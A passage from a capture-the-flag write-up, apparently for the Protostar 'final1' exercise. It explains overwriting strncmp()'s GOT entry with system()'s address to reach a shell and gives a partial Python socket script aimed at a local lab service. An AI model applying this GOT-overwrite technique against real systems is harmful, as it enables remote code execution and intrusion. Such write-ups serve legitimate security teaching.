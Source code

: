 Success! We've dumped memory, confirming the vulnerability.

Now, the goal is to execute `system("/bin/sh")`. There's no direct way in the source code, but we can exploit a trick:

The `strncmp()` function (used for validation) takes `line` as input, just like `system()`. By overwriting **strncmp()'s GOT entry** with `system()`'s address, we can input a command and execute it.

Let's build our exploit and locate `strncmp()` in **GOT**.

```shell
import socket

HOST = '127.0.0.1'
PORT = 2994
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

def read_until(check):
        buf = ''
        while check not in buf:
                buf += s.recv(1)
        return buf

username = ''
login = ''

print read_until('[final1] $ ')
s.send('username ' + username + '\n')
raw_input('[Enter] to continue...')
print read_until('[final1] $ ')
s.send('login ' + login + '\n')
print read_until('[final1] $ ')
```

![strncmp-got](/public/image/protostar-final/strncmp-got.png)
